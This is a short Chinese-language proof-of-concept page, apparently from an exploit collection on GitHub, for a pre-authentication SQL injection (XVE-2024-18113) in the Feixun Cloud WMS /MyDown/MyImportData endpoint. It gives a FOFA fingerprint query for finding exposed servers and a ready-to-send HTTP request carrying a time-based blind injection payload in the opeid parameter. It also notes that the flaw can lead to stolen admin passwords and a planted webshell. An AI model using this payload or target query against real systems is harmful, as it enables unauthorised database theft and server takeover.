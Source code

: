 # 飞讯云MyImportData前台SQL注入(XVE-2024-18113)

飞讯云-WMS /MyDown/MyImportData 接口处存在前台SQL注入漏洞，未经身份验证的远程攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息（例如，管理员后台密码、站点的用户个人信息）之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

## fofa

```yaml
FOFA：body="wx8ccb75857bd3e985"
```

## poc

```yaml
GET /MyDown/MyImportData?opeid=1%27+WAITFOR+DELAY+'0:0:5'-- HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407252259581.png)
